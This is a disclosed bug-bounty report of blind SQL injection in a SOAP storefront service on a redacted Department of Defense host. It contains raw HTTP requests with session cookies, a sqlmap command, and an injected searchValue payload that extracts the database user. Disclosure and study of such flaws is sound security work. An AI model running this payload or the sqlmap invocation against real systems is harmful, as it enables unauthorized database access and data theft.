 # Blind Sql Injection in https://████████/

## Report Details
- **Report ID**: 2072306
- **URL**: https://hackerone.com/reports/2072306
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-07-17T12:02:12.292Z
- **Disclosed**: 2023-09-08T17:18:14.800Z

## Reporter
- **Username**: hack0neone
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**

first  browse url
https://█████████/DSF/SmartStore.aspx?gktTg9gFCEBknhRFawes89EY4WcuDKHZNYh58W8kzOWv0SM9Nk6SFMv570fOCer/BHfPrtRYtqRvYJ88zd0KsQ==&random=0.7493498572981403#!/Storefront

find login 

then notice register

████████

███████

click register 

https://████/DSF/SmartStore.aspx?gktTg9gFCEBknhRFawes89EY4WcuDKHZNYh58W8kzOWv0SM9Nk6SFMv570fOCer/BHfPrtRYtqRvYJ88zd0KsQ==&random=0.7493498572981403#!/RegisterUser

click Choose Facility
█████████

We can see a search box
█████████

```
POST /DSF/webservices/StorefrontService.asmx HTTP/1.1
Host: ████████
Cookie: ASP.NET_SessionId=1phpamlj3ghg13yranwpwyc4; LASTSITEACTIVITY=17b9c74a-f80b-4e48-b274-729acb2e14ad; _____SITEGUID=17b9c74a-f80b-4e48-b274-729acb2e14ad; BIGipServerdso_dla_pool=!bMk2BVeAkzRdd6t/+hAGiDi1KgdSoi+88iAAs7+CvOtONGAdcnAhOqOuh++pi3IS36YNq+YVfr5l8HI=; TS01a7bc09=01a9fe659b2979abff2645807c9ce81ffbeeeeaafa33f9038d5a1c59dd219a29ce68fa7d4edb9afe6bb9488ceb9c8dd10214f84f28; DSFPartnerID=yaY5gqbGhOY=; TS2f53739b027=085749d0e4ab200041fc059864d60f7079a5bba1c971a9b0ec2c518a8be95c59408233620a4046e908a71691ce11300072991b95acde4750057dcf4b690fc5d287bd05e77fb374c2ef003c7fa6de858098c8aded9cd3dbae4fb2b4cb23fae3f4
Content-Length: 945
Sec-Ch-Ua: "Not.A/Brand";v="8", "Chromium";v="114", "Google Chrome";v="114"
Accept: application/xml
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
Soapaction: http://www.efi.com/dsf/StorefrontService/GetAllFacilitiesForNewUserRegistration
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://███
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://█████/DSF/SmartStore.aspx?6xni2of2cF01Wh1WA1f8KvqWdFIzCmht0+f1rjakhLYZYEorRbI5CMSxx2CBgN1b
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

      <soapenv:Envelope xmlns:soapenv='http://schemas.xmlsoap.org/soap/envelope/' xmlns:xsi='http://www.w3.org/2001/XMLSchema-instance' >      <soapenv:Header>     <AuthenticationHeader xmlns='http://www.efi.com/dsf/BuyerTicketClientServices'>      <SiteGUID>17b9c74a-f80b-4e48-b274-729acb2e14ad</SiteGUID>
<SessionTokenID>49f22361-1243-4cde-9788-7bad2eb575ed</SessionTokenID>
<TimeOut>20</TimeOut>
<CultureName>zh-CN</CultureName>

      </AuthenticationHeader>      </soapenv:Header>     <soapenv:Body>      <GetAllFacilitiesForNewUserRegistration xmlns='http://www.efi.com/dsf/StorefrontService'>      <companyId>-1</companyId>
<cultureName>zh-CN</cultureName>
<sortColumn>description</sortColumn>
<sortOrder>asc</sortOrder>
<searchValue>*</searchValue>
<currentPageIndex>1</currentPageIndex>
<recordsToFetch>10</recordsToFetch>

      </GetAllFacilitiesForNewUserRegistration>      </soapenv:Body>      </soapenv:Envelope>
```

search box exist  Blind Sql Injection

searchValue is  Vulnerability parameters


sqlmap
payload

python2  sqlmap.py -r 11.txt --random-agent --batch --technique=b --dbms=mssql   --force-ssl  --level 3 --skip-urlencode


11.txt is Displayed packets

███



db_name()=dsfdb

user=public\dsfwsuser
████████




## References

## Impact

An attacker can use SQL injection to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.

## System Host(s)
██████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
```
POST /DSF/webservices/StorefrontService.asmx HTTP/1.1
Content-Length: 1002
Host: ███████
Cookie: ASP.NET_SessionId=1phpamlj3ghg13yranwpwyc4; LASTSITEACTIVITY=17b9c74a-f80b-4e48-b274-729acb2e14ad; _____SITEGUID=17b9c74a-f80b-4e48-b274-729acb2e14ad; BIGipServerdso_dla_pool=!bMk2BVeAkzRdd6t/+hAGiDi1KgdSoi+88iAAs7+CvOtONGAdcnAhOqOuh++pi3IS36YNq+YVfr5l8HI=; TS01a7bc09=01a9fe659b2979abff2645807c9ce81ffbeeeeaafa33f9038d5a1c59dd219a29ce68fa7d4edb9afe6bb9488ceb9c8dd10214f84f28; DSFPartnerID=yaY5gqbGhOY=; TS2f53739b027=085749d0e4ab2000cf04a7295483e1cce16ccb87209e7981813dc0a125020d3f249e89ef86527dcf08fb4cab96113000ae5fba89a9fed5ab8b1354f1c8230167554658dd447c5fc3027504fa66671acba512aa2d0978507583469676a770ea4c
Sec-Ch-Ua: "Not.A/Brand";v="8", "Chromium";v="114", "Google Chrome";v="114"
Accept: application/xml
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
Soapaction: http://www.efi.com/dsf/StorefrontService/GetAllFacilitiesForNewUserRegistration
Sec-Ch-Ua-Platform: "Windows"
Origin: https://████████
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://██████/DSF/SmartStore.aspx?6xni2of2cF01Wh1WA1f8KvqWdFIzCmht0 f1rjakhLYZYEorRbI5CMSxx2CBgN1b
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (X11; U; Linux i686; it-IT; rv:1.9.0.2) Gecko/2008092313 Ubuntu/9.25 (jaunty) Firefox/3.8
Connection: close

      <soapenv:Envelope xmlns:soapenv='http://schemas.xmlsoap.org/soap/envelope/' xmlns:xsi='http://www.w3.org/2001/XMLSchema-instance' >      <soapenv:Header>     <AuthenticationHeader xmlns='http://www.efi.com/dsf/BuyerTicketClientServices'>      <SiteGUID>17b9c74a-f80b-4e48-b274-729acb2e14ad</SiteGUID>
<SessionTokenID>49f22361-1243-4cde-9788-7bad2eb575ed</SessionTokenID>
<TimeOut>20</TimeOut>
<CultureName>zh-CN</CultureName>

      </AuthenticationHeader>      </soapenv:Header>     <soapenv:Body>      <GetAllFacilitiesForNewUserRegistration xmlns='http://www.efi.com/dsf/StorefrontService'>      <companyId>-1</companyId>
<cultureName>zh-CN</cultureName>
<sortColumn>description</sortColumn>
<sortOrder>asc</sortOrder>
<searchValue>1'  and substring(system_user,1,16)='public\dsfwsuser' and '%'='</searchValue>
<currentPageIndex>1</currentPageIndex>
<recordsToFetch>10</recordsToFetch>

      </GetAllFacilitiesForNewUserRegistration>      </soapenv:Body>      </soapenv:Envelope>
```

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
